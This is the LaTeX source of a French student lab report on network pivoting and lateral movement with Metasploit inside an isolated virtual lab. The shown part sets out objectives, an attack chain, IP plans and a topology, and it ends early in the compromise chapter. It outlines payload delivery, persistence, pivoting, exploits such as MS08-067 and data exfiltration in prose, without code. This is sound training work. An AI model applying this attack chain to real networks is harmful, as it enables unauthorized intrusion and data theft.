% !TeX program = lualatex
% !TeX encoding = UTF-8
% !TeX spellcheck = fr_FR

\documentclass[12pt,a4paper,openany]{report}

% ==============================================================================
% 1. MOTEUR & LANGUE (Spécifique LuaLaTeX)
% ==============================================================================
\usepackage{fontspec}
\usepackage{polyglossia}
\setmainlanguage{french}
\setotherlanguage{english}

% ==============================================================================
% 2. MISE EN PAGE & STRUCTURE
% ==============================================================================
\usepackage{geometry}
\geometry{left=2.5cm, right=2.5cm, top=3cm, bottom=3cm, headheight=30pt}

\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage{titletoc}

% ==============================================================================
% 3. TYPOGRAPHIE & TEXTE
% ==============================================================================
\usepackage{setspace}
\usepackage{xcolor}
\usepackage{csquotes}
\usepackage{enumitem}
\usepackage{indentfirst}
\usepackage{hyphenat}
\usepackage[skins, breakable]{tcolorbox}

% ==============================================================================
% 4. MATHÉMATIQUES & SYMBOLES
% ==============================================================================
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{amsfonts}
\usepackage{mathtools}
\usepackage{bm}

% ==============================================================================
% 5. GRAPHISMES & DIAGRAMMES
% ==============================================================================
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{positioning, shapes.geometric, arrows.meta, calc}
\usepackage{pgfplots}
\pgfplotsset{compat=1.18}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{float}

% ==============================================================================
% 6. TABLEAUX
% ==============================================================================
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{array}
\usepackage{multirow}
\usepackage{tabularx}
\usepackage{colortbl}

% ==============================================================================
% 7. CODE SOURCE & LISTINGS
% ==============================================================================
\usepackage{listings}
\usepackage{lstautogobble}

% ==============================================================================
% 8. LIENS & RÉFÉRENCES
% ==============================================================================
\usepackage{hyperref}
\usepackage{bookmark}
\usepackage{url}
\usepackage{hypcap}

% ==============================================================================
% 9. UTILITAIRES DIVERS
% ==============================================================================
\usepackage{pdfpages}
\usepackage{imakeidx}
\usepackage{lastpage}
\usepackage{lipsum}

% ==============================================================================
% POLICES ET TYPOGRAPHIE
% ==============================================================================
\setmainfont{Latin Modern Roman}
\setsansfont{Latin Modern Sans}
\setmonofont{Latin Modern Mono}

% ==============================================================================
% COULEURS ET STYLE (Palette Professionnelle)
% ==============================================================================
\definecolor{primary}{RGB}{0,51,102}       % Bleu Nuit Profond
\definecolor{secondary}{RGB}{0,102,204}    % Bleu Plus Clair
\definecolor{accent}{RGB}{204,0,0}         % Rouge Accent
\definecolor{codebg}{RGB}{248,248,248}     % Gris Très Clair pour code
\definecolor{codekeyword}{RGB}{0,0,200}
\definecolor{codestring}{RGB}{163,21,21}
\definecolor{codecomment}{RGB}{0,128,0}
\definecolor{footergray}{RGB}{128,128,128}
\definecolor{logbgcolor}{RGB}{250,250,250}
% Table colors
\definecolor{tableheadbg}{RGB}{0,51,102}
\definecolor{tableheadfg}{RGB}{255,255,255}
\definecolor{tablerowalt}{RGB}{235,242,252}
\definecolor{tableborder}{RGB}{0,80,160}

% ==============================================================================
% EN-TÊTES ET PIEDS DE PAGE (FIXED)
% ==============================================================================
\pagestyle{fancy}
\fancyhf{}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \headrulewidth\hfill}}
\renewcommand{\footrulewidth}{0.4pt}
\renewcommand{\footrule}{\hbox to\headwidth{%
		\color{primary}\leaders\hrule height \footrulewidth\hfill}}

\fancyhead[L]{\textcolor{primary}{\small\bfseries
		Architecture \& Sécurité des Réseaux \textbullet\ TP\,3}}
\fancyhead[R]{\textcolor{primary}{\small\bfseries
		ESTK \textbullet\ IDRS}}

% New conditional footer - checks if we're using gobble
\newif\ifshowpagenumbers
\showpagenumberstrue

\fancyfoot[C]{\textcolor{footergray}{\small%
		\ifshowpagenumbers%
		Page \thepage\ sur \pageref{LastPage}%
		\fi%
}}

\fancypagestyle{plain}{
	\fancyhf{}
	\renewcommand{\headrulewidth}{0pt}
	\renewcommand{\footrulewidth}{0.4pt}
	\renewcommand{\footrule}{\hbox to\headwidth{%
			\color{primary}\leaders\hrule height \footrulewidth\hfill}}
	\fancyfoot[C]{\textcolor{footergray}{\small%
			\ifshowpagenumbers%
			Page \thepage\ sur \pageref{LastPage}%
			\fi%
	}}
}

% Command to hide page numbers
\newcommand{\hidepagenumbers}{\showpagenumbersfalse\pagestyle{empty}}
\newcommand{\showpagenumbers}{\showpagenumberstrue\pagestyle{fancy}}

% ==============================================================================
% FORMATAGE DES TITRES
% ==============================================================================
\titleformat{\chapter}[display]
{\normalfont\huge\bfseries\color{primary}}{\chaptertitlename\ \thechapter}{20pt}{\Huge}
\titleformat{\section}
{\normalfont\Large\bfseries\color{primary}}{\thesection}{1em}{}
\titleformat{\subsection}
{\normalfont\large\bfseries\color{secondary}}{\thesubsection}{1em}{}

% ==============================================================================
% CONFIGURATION LISTINGS POUR LE CODE
% ==============================================================================
\lstset{
	basicstyle=\ttfamily\small,
	backgroundcolor=\color{codebg},
	keywordstyle=\color{codekeyword}\bfseries,
	stringstyle=\color{codestring},
	commentstyle=\color{codecomment}\itshape,
	frame=single,
	rulecolor=\color{primary},
	breaklines=true,
	breakatwhitespace=true,
	showstringspaces=false,
	captionpos=b,
	numbers=left,
	numberstyle=\tiny\color{gray},
	numbersep=5pt,
	tabsize=4,
	extendedchars=true,
	inputencoding=utf8,
	autogobble=true
}

\lstdefinestyle{logstyle}{
	basicstyle=\ttfamily\footnotesize,
	backgroundcolor=\color{logbgcolor},
	frame=none,
	breaklines=true,
	showstringspaces=false,
	captionpos=b,
	autogobble=true
}

% ==============================================================================
% COMMANDE TABLE STYLISÉE
% ==============================================================================
% Macro pour en-tête de tableau coloré
\newcommand{\tableheadcolor}{\rowcolor{tableheadbg}}

% ==============================================================================
% MÉTADONNÉES HYPERREF
% ==============================================================================
\hypersetup{
	colorlinks=true,
	linkcolor=primary,
	filecolor=magenta,
	urlcolor=secondary,
	pdftitle={Rapport Technique : Pivoting Réseau et Mouvement Latéral - TP3},
	pdfauthor={Yasser Bella, Oussama El Habti, Salma El Habti},
	pdfsubject={Cybersécurité Offensive},
	pdfkeywords={Metasploit, Pivoting, Lateral Movement, Meterpreter, Post-Exploitation}
}

% ==============================================================================
% INTERLIGNE
% ==============================================================================
\onehalfspacing

% ==============================================================================
% DÉBUT DU DOCUMENT
% ==============================================================================
\begin{document}
	\sloppy
	
	% ------------------------------------------------------------------------------
	% PAGE DE TITRE (DESIGN PROFESSIONNEL)
	% ------------------------------------------------------------------------------
	\begin{titlepage}
		\thispagestyle{empty}
		
		% ── BARRE SUPÉRIEURE ────────────────────────────────────────────────
		\noindent
		\colorbox{primary}{%
			\parbox{\dimexpr\textwidth-2\fboxsep}{%
				\vspace{0.6cm}
				\centering
				{\large\bfseries\textcolor{white}{Cyberdéfense et Sécurité Offensive}}\\[0.6cm]
			}%
		}
		
		\vspace{1.5cm}
		\centering
		
		% ── LABEL TP ────────────────────────────────────────────────────────
		{\normalsize\bfseries\color{black!40}\MakeUppercase{Travaux Pratiques N\textsuperscript{o}3}}
		
		\vspace{0.8cm}
		
		% ── TITRE PRINCIPAL ─────────────────────────────────────────────────
		{\Huge\bfseries\color{primary}
			Pivoting Réseau et\\[0.3cm]
			Mouvement Latéral\par
		}
		
		\vspace{0.5cm}
		
		% ── LIGNE DÉCORATIVE ────────────────────────────────────────────────
		{\color{accent}\rule{7cm}{1.5pt}\par}
		
		\vspace{0.5cm}
		
		% ── SOUS-TITRE ──────────────────────────────────────────────────────
		{\large\color{black!60}
			Exploitation d'une Infrastructure Segmentée\\[0.2cm]
			via Metasploit Framework et Post-Exploitation Avancée\par
		}
		
		\vspace{2cm}
		
		% ── INFORMATIONS ÉTUDIANTS ──────────────────────────────────────────
		{\large
			\renewcommand{\arraystretch}{1.5}
			\begin{tabular}{c}
				\textbf{\color{primary}Équipe de Réalisation :}\\[0.3cm]
				Yasser \textsc{Bella} \\
				Oussama \textsc{El Habti} \\
				Salma \textsc{El Habti} \\[0.6cm]
				
				\textbf{\color{primary}Filière :} IDRS --- Infrastructure Digitale Réseau et Sécurité \\[0.3cm]
				\textbf{\color{primary}Année Universitaire :} 2025 -- 2026 \\
			\end{tabular}
		}
		
		\vfill
		
		% ── BARRE INFÉRIEURE (TECHNOLOGIES) ─────────────────────────────────
		\noindent
		\colorbox{primary}{%
			\parbox{\dimexpr\textwidth-2\fboxsep}{%
				\vspace{0.35cm}
				\centering
				{\small\textcolor{white}{%
						Metasploit Framework 6.4
						\quad\textbullet\quad Meterpreter
						\quad\textbullet\quad Ubuntu 25.04}}\\[0.2cm]
				{\small\textcolor{white}{%
						Parrot Security OS
						\quad\textbullet\quad Windows XP SP3
						\quad\textbullet\quad pfSense 2.8.0}}\\[0.35cm]
			}%
		}%
	\end{titlepage}
	
	% ------------------------------------------------------------------------------
	% PAGES LIMINAIRES
	% ------------------------------------------------------------------------------
	% Hide page numbers for front matter
	\hidepagenumbers
	
	\tableofcontents
	\newpage
	\listoffigures
	\listoftables
	\newpage
	
	% Restore page numbering for main content
	\cleardoublepage
	\showpagenumbers
	\pagenumbering{arabic}
	\setcounter{page}{1}
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 1 : INTRODUCTION
	% ------------------------------------------------------------------------------
	
	\chapter{Introduction et Contexte Opérationnel}
	
	\section{Contexte du Projet}
	
	Ce travail pratique constitue la troisième et dernière étape d'une série de laboratoires interconnectés démontrant le cycle complet d'un engagement de sécurité offensive. Il se concentre sur les techniques avancées de \textbf{pivoting réseau} et de \textbf{mouvement latéral}, deux concepts fondamentaux dans les opérations offensives modernes.
	
	\subsection{Progression Pédagogique des Trois TP}
	
	Les trois travaux pratiques forment une progression logique reproduisant un scénario réaliste de test d'intrusion :
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.5}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\centering\arraybackslash}p{1.5cm} p{4cm} p{7cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{TP}} &
			\textcolor{tableheadfg}{\textbf{Phase}} &
			\textcolor{tableheadfg}{\textbf{Objectifs Principaux}} \\
			\hline
			\rowcolor{tablerowalt}
			\textbf{TP1} & Infrastructure Défensive & Déploiement de pfSense, segmentation réseau (WAN/DMZ/LAN), configuration des règles de pare-feu, mise en place de Snort IDS/IPS et pfBlockerNG \\
			
			\textbf{TP2} & Configuration \& Reconnaissance & Installation de services exposés (Telnet, HTTP, SMB), configuration du port forwarding NAT, reconnaissance active avec Nmap, analyse de la surface d'attaque \\
			
			\rowcolor{tablerowalt}
			\textbf{TP3} & Exploitation \& Post-Exploitation & Compromission du serveur DMZ, établissement de persistence, pivoting vers le LAN, mouvement latéral, exfiltration de données \\
			\hline
		\end{tabular}
		\caption{Progression des Travaux Pratiques TP1-TP2-TP3}
		\label{tab:tp-progression}
	\end{table}
	
	\subsection{Rappel des Acquis des TP Précédents}
	
	\subsubsection{TP1 : Fondations Défensives}
	Le TP1 a établi l'infrastructure de base :
	\begin{itemize}
		\item Architecture réseau segmentée en trois zones (WAN, DMZ, LAN).
		\item Pare-feu pfSense avec politiques de sécurité strictes.
		\item Systèmes de détection d'intrusion (Snort, pfBlockerNG).
		\item Principe de défense en profondeur (pare-feu périmétrique + pare-feu hôte).
	\end{itemize}
	
	\subsubsection{TP2 : Préparation du Terrain d'Attaque}
	Le TP2 a configuré les services cibles et réalisé une reconnaissance :
	\begin{itemize}
		\item \textbf{Installation du service Telnet} sur le serveur Ubuntu DMZ (Chapitre 2 du TP2).
		\item \textbf{Configuration des règles NAT} pour exposer les ports 23, 80, 139, 445 (Chapitre 3 du TP2).
		\item \textbf{Reconnaissance active avec Nmap} identifiant les services exposés (Chapitre 4 du TP2).
		\item \textbf{Analyse de la surface d'attaque} révélant les vulnérabilités critiques (Chapitre 5 du TP2).
	\end{itemize}
	
	\textbf{Découvertes Clés du TP2 :}
	\begin{itemize}
		\item Le service Telnet (port 23) a été identifié comme vecteur d'attaque prioritaire en raison de l'absence de chiffrement.
		\item Le scan Nmap a révélé l'état des ports exposés (open, filtered, closed).
		\item L'analyse théorique a conclu que le service Telnet représentait une vulnérabilité critique (CVSS 9.8).
	\end{itemize}
	
	\subsection{Positionnement du TP3}
	
	Dans un scénario réaliste de test d'intrusion (penetration test), un attaquant qui compromise un système exposé sur Internet (zone WAN ou DMZ) ne se contente pas de cette première victoire. Son objectif ultime est souvent d'accéder aux ressources internes critiques situées dans des zones protégées (LAN). 
	
	Le \textbf{pivoting} consiste précisément à utiliser un système compromis comme point de rebond (\textit{pivot point}) pour atteindre des réseaux normalement inaccessibles depuis l'extérieur.
	
	\textbf{Ce TP3 valide de manière pratique les hypothèses du TP2 :}
	\begin{itemize}
		\item Les vulnérabilités théoriques identifiées sont-elles réellement exploitables ?
		\item La segmentation réseau du TP1 peut-elle être contournée via pivoting ?
		\item Quel est l'impact réel d'une compromission de la DMZ sur le LAN ?
	\end{itemize}
	
	\subsection{Architecture Cible}
	
	L'infrastructure testée est celle déployée lors du TP1 et configurée lors du TP2 :
	\begin{itemize}
		\item \textbf{Zone WAN} (192.168.100.0/24) : Interface externe simulant Internet.
		\item \textbf{Zone DMZ} (192.168.10.0/24) : Serveur Ubuntu exposant des services (HTTP, Telnet, SMB).
		\item \textbf{Zone LAN} (192.168.20.0/24) : Réseau interne sécurisé avec un poste Windows XP.
		\item \textbf{Pare-feu pfSense} : Segmentation stricte entre zones, règles de blocage par défaut.
	\end{itemize}
	
	\section{Objectifs Pédagogiques}
	
	À l'issue de ce travail pratique, l'étudiant doit maîtriser les compétences techniques suivantes :
	
	\begin{enumerate}[leftmargin=*]
		\item \textbf{Compromission Initiale :}
		\begin{itemize}
			\item Exploiter les vulnérabilités identifiées lors du TP2 (service Telnet).
			\item Établir un accès initial sur un système cible.
		\end{itemize}
		
		\item \textbf{Post-Exploitation et Persistence :}
		\begin{itemize}
			\item Migrer d'un shell basique vers un agent Meterpreter.
			\item Maintenir un canal de commande et contrôle (C2) stable.
			\item Énumérer le système compromis (OS, utilisateurs, services).
		\end{itemize}
		
		\item \textbf{Pivoting Réseau :}
		\begin{itemize}
			\item Configurer des routes via Metasploit pour atteindre des réseaux internes.
			\item Comprendre la différence entre routage statique et dynamique.
			\item Utiliser un hôte compromis comme passerelle (gateway) vers le LAN.
		\end{itemize}
		
		\item \textbf{Reconnaissance Latérale :}
		\begin{itemize}
			\item Scanner des réseaux internes \textit{à travers} le pivot.
			\item Identifier des cibles secondaires (Windows XP dans le LAN).
			\item Énumérer les services exposés (SMB, RDP).
		\end{itemize}
		
		\item \textbf{Tentatives d'Exploitation Avancée :}
		\begin{itemize}
			\item Tester des exploits célèbres (MS08-067, MS17-010).
			\item Comprendre les mécanismes de protection (patches, DEP).
			\item Configurer des tunnels (port forwarding) pour exposer des services internes.
		\end{itemize}
		
		\item \textbf{Collecte d'Intelligence :}
		\begin{itemize}
			\item Exfiltrer des données sensibles (comptes utilisateurs, configurations).
			\item Utiliser des modules de post-exploitation Metasploit.
			\item Analyser les connexions actives pour prouver la persistence.
		\end{itemize}
		
		\item \textbf{Documentation et Méthodologie :}
		\begin{itemize}
			\item Documenter chaque phase de l'attaque avec des preuves.
			\item Formuler des recommandations de remédiation.
			\item Adopter une démarche éthique et responsable.
		\end{itemize}
	\end{enumerate}
	
	\section{Cadre Éthique et Légal}
	
	\begin{tcolorbox}[colback=accent!5!white, colframe=accent, title=\textbf{AVERTISSEMENT LÉGAL}]
		\textbf{Tous les tests ont été réalisés dans un environnement de laboratoire isolé, sans connexion à des systèmes de production.}
		
		L'exploitation de systèmes informatiques sans autorisation explicite est \textbf{illégale} dans la plupart des juridictions (Article 323-1 du Code pénal français, Computer Fraud and Abuse Act aux États-Unis, etc.).
		
		Les techniques présentées dans ce rapport sont destinées \textbf{uniquement} à des fins pédagogiques et doivent être utilisées dans le cadre de tests d'intrusion autorisés ou d'environnements de formation contrôlés.
	\end{tcolorbox}
	
	\section{Méthodologie d'Attaque}
	
	Notre démarche suit le modèle de la \textit{Cyber Kill Chain} de Lockheed Martin, adapté au contexte du pivoting :
	
	\begin{enumerate}
		\item \textbf{Reconnaissance :} Exploitation des résultats Nmap du TP2 (services exposés identifiés).
		\item \textbf{Weaponization :} Préparation du payload Meterpreter.
		\item \textbf{Delivery :} Téléchargement du payload via HTTP.
		\item \textbf{Exploitation :} Exécution du payload, établissement du C2.
		\item \textbf{Installation :} Persistence via sessions multiples.
		\item \textbf{Command \& Control :} Gestion des sessions Meterpreter.
		\item \textbf{Actions on Objectives :} Pivoting, reconnaissance du LAN, collecte de données.
	\end{enumerate}
	
	\subsection{Corrélation avec les Phases Précédentes}
	
	\begin{table}[H]
		\centering
		\small
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{3.5cm} p{5cm} p{4.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Phase Kill Chain}} &
			\textcolor{tableheadfg}{\textbf{Action TP2}} &
			\textcolor{tableheadfg}{\textbf{Action TP3}} \\
			\hline
			\rowcolor{tablerowalt}
			Reconnaissance & Nmap scan (Chapitre 4) & Exploitation des résultats \\
			Weaponization & Analyse théorique des vulnérabilités & Génération payload Meterpreter \\
			\rowcolor{tablerowalt}
			Delivery & Configuration NAT (Chapitre 3) & Téléchargement via wget \\
			Exploitation & Identification Telnet vulnérable & Connexion et compromission \\
			\rowcolor{tablerowalt}
			Installation & N/A & Persistence C2 \\
			Actions on Objectives & Analyse surface d'attaque & Pivoting + Exfiltration \\
			\hline
		\end{tabular}
		\caption{Corrélation TP2-TP3 selon la Cyber Kill Chain}
		\label{tab:kill-chain-correlation}
	\end{table}
	
	% ------------------------------------------------------------------------------
	% CHAPITRE 2 : ARCHITECTURE
	% ------------------------------------------------------------------------------
	\chapter{Architecture Réseau et Topologie Cible}
	
	\section{Vue d'Ensemble de l'Infrastructure}
	
	L'infrastructure testée est identique à celle déployée lors du TP1. Cette continuité permet de valider l'efficacité (ou les failles) des mécanismes de défense mis en place précédemment.
	
	\begin{table}[ht]
		\centering
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{>{\bfseries}p{3.5cm} p{3.2cm} p{2.8cm} p{3.2cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Machine}} &
			\textcolor{tableheadfg}{\textbf{Rôle}} &
			\textcolor{tableheadfg}{\textbf{Zone}} &
			\textcolor{tableheadfg}{\textbf{OS}} \\
			\hline
			\rowcolor{tablerowalt}
			pfSense-Firewall & Pare-feu Segmenteur & WAN/DMZ/LAN & pfSense 2.8.0 \\
			Ubuntu DMZ & Cible Initiale & DMZ & Ubuntu 25.04 \\
			\rowcolor{tablerowalt}
			Parrot Security & Machine Attaquante & WAN & Parrot Security OS \\
			Windows XP Client & Cible Secondaire & LAN & Windows XP SP3 \\
			\hline
		\end{tabular}
		\caption{Inventaire des Machines Virtuelles}
		\label{tab:vm-inventory-tp3}
	\end{table}
	
	\section{Plan d'Adressage IP}
	
	\begin{table}[ht]
		\centering
		\small
		\renewcommand{\arraystretch}{1.5}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{4.5cm} >{\centering\arraybackslash}p{3.5cm} >{\centering\arraybackslash}p{3.5cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Machine}} &
			\textcolor{tableheadfg}{\textbf{Adresse IP}} &
			\textcolor{tableheadfg}{\textbf{Passerelle}} \\
			\hline
			\rowcolor{tablerowalt}
			pfSense (WAN) & 192.168.100.6 & 192.168.100.2 \\
			pfSense (DMZ) & 192.168.10.1 & N/A \\
			\rowcolor{tablerowalt}
			pfSense (INTERNAL\_LAN) & 192.168.20.1 & N/A \\
			Ubuntu DMZ & 192.168.10.100 & 192.168.10.1 \\
			\rowcolor{tablerowalt}
			Windows XP Client & 192.168.20.50 & 192.168.20.1 \\
			Parrot Security (Attaquant) & 192.168.100.150 & 192.168.100.2 \\
			\hline
		\end{tabular}
		\caption{Plan d'Adressage IP Détaillé}
		\label{tab:ip-plan-tp3}
	\end{table}
	
	\section{Configuration des Règles de Pare-feu}
	
	Les règles pfSense configurées lors du TP1 restent actives, notamment :
	
	\begin{itemize}
		\item \textbf{Port Forwarding NAT :} Redirection des ports 80, 139, 445 vers 192.168.10.100.
		\item \textbf{Règles WAN :} Autorisation du trafic entrant vers la DMZ.
		\item \textbf{Isolation DMZ/LAN :} Par défaut, aucun trafic DMZ → LAN n'est autorisé.
	\end{itemize}
	
	\begin{figure}[H]
		\centering
		\IfFileExists{screenshots/firewall-rules-3.png}{
			
\includegraphics[width=0.9\textwidth]{screenshots/firewall-rules-3.png}
		}{
			\includegraphics[width=0.9\textwidth]{example-image}
			\caption*{\textbf{Attention :} Fichier screenshots/firewall-rules-3.png introuvable.}
		}
		\caption{Règles de Pare-feu WAN Actives}
		\label{fig:firewall-tp3}
	\end{figure}
	
	\begin{figure}[H]
		\centering
		\IfFileExists{screenshots/nat-rules-3.png}{
			
\includegraphics[width=0.9\textwidth]{screenshots/nat-rules-3.png}
		}{
			\includegraphics[width=0.9\textwidth]{example-image}
			\caption*{\textbf{Attention :} Fichier screenshots/nat-rules-3.png introuvable.}
		}
		\caption{Configuration NAT Port Forward}
		\label{fig:nat-tp3}
	\end{figure}
	
	\section{Topologie Logique}
	
	\begin{figure}[H]
		\centering
		\begin{tikzpicture}[
			node distance=2.5cm,
			every node/.style={font=\small},
			box/.style={rectangle, draw=primary, fill=primary!10, thick, minimum width=3cm, minimum height=1.2cm, align=center},
			compromised/.style={rectangle, draw=accent, fill=accent!20, thick, minimum width=3cm, minimum height=1.2cm, align=center},
			target/.style={rectangle, draw=secondary, fill=secondary!10, thick, minimum width=3cm, minimum height=1.2cm, align=center}
			]
			
			% Attacker
			\node[compromised] (attacker) {\textbf{Parrot Security}\\192.168.100.150\\(Attaquant)};
			
			% pfSense
			\node[box, below=of attacker] (pfsense) {\textbf{pfSense}\\WAN: 192.168.100.6\\DMZ: 192.168.10.1\\LAN: 192.168.20.1};
			
			% Ubuntu DMZ
			\node[compromised, below left=of pfsense, xshift=-1.5cm] (ubuntu) {\textbf{Ubuntu DMZ}\\192.168.10.100\\{\color{accent}\textbf{COMPROMIS}}};
			
			% Windows XP
			\node[target, below right=of pfsense, xshift=1.5cm] (windows) {\textbf{Windows XP}\\192.168.20.50\\(Cible Secondaire)};
			
			% Arrows
			\draw[->, thick, accent] (attacker) -- node[right] {①Telnet} (pfsense);
			\draw[->, thick, accent] (pfsense) -- node[left, xshift=-0.3cm] {②Compromise} (ubuntu);
			\draw[->, thick, secondary, dashed] (ubuntu) -- node[below, yshift=-0.2cm] {③Pivot Route} (pfsense);
			\draw[->, thick, secondary, dashed] (pfsense) -- node[right, xshift=0.3cm] {④Scan via Pivot} (windows);
			
		\end{tikzpicture}
		\caption{Topologie Logique de l'Attaque}
		\label{fig:topology-tp3}
	\end{figure}
	
% ------------------------------------------------------------------------------
% CHAPITRE 3 : COMPROMISSION INITIALE
% ------------------------------------------------------------------------------
\chapter{Phase 1 : Compromission Initiale}

% ==============================================================================
% NOTE D'ADAPTATION ACADÉMIQUE
% ==============================================================================
\section{Note sur l'Adaptation du Laboratoire}
\begin{tcolorbox}[colback=secondary!5!white, colframe=secondary, 
	title=\textbf{ADAPTATION TECHNIQUE DU TP3},
	breakable]
	
	\textbf{Divergence avec le Sujet Original:}
	
	Le sujet du TP3 demande d'exploiter une machine \textbf{Metasploitable} 
	via l'exploit Samba \texttt{usermap\_script} (CVE-2007-2447, port 139).
	
	\textbf{Architecture Réelle de notre Laboratoire:}
	
	Notre infrastructure, construite progressivement lors des TP1 et TP2, 
	utilise un serveur \textbf{Ubuntu 25.04 DMZ} avec les services suivants:
	\begin{itemize}
		\item Telnet (port 23) - configuré lors du TP2, Chapitre 2
		\item HTTP/DVWA (port 80) - serveur web vulnérable
		\item Samba (ports 139/445) - partage de fichiers
